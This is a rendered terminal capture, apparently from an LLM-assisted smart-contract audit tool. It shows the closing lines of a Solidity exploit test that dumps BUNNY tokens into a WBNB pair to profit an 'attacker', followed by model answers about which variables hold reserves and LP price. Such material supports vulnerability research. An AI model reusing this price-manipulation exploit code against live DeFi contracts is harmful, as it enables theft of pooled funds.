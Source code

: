 │                 reserve0                                                                                                                                                                                                                              │
│             );                                                                                                                                                                                                                                        │
│                                                                                                                                                                                                                                                       │
│             IERC20(BUNNY).transfer(address(WBNBBUNNY), amountIn);                                                                                                                                                                                     │
│             WBNBBUNNY.swap(amountOut, 0, address(this), hex"");                                                                                                                                                                                       │
│                                                                                                                                                                                                                                                       │
│             emit log_named_decimal_uint(                                                                                                                                                                                                              │
│                 "After dumping all BUNNY, WBNB balance of attacker:",                                                                                                                                                                                 │
│                 IERC20(WBNB).balanceOf(address(this)),                                                                                                                                                                                                │
│                 IERC20(WBNB).decimals()                                                                                                                                                                                                               │
│             );                                                                                                                                                                                                                                        │
│         }                                                                                                                                                                                                                                             │
│     }                                                                                                                                                                                                                                                 │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Yes                                                                                                                                                                                                                                                   │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"VariableA":{"_amount0, _amount1":"These variables hold the market reserves after calling the getReserves() function on pairs[0].", "IERC20(WBNB).balanceOf(address(this)), IERC20(USDT).balanceOf(address(this))":"These functions return the       │
│ balance of WBNB and USDT tokens held by this contract."}, "VariableB":{"Variable name":"No variable in this function holds the calculated value/price of LP token."}}                                                                                 │
╰───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯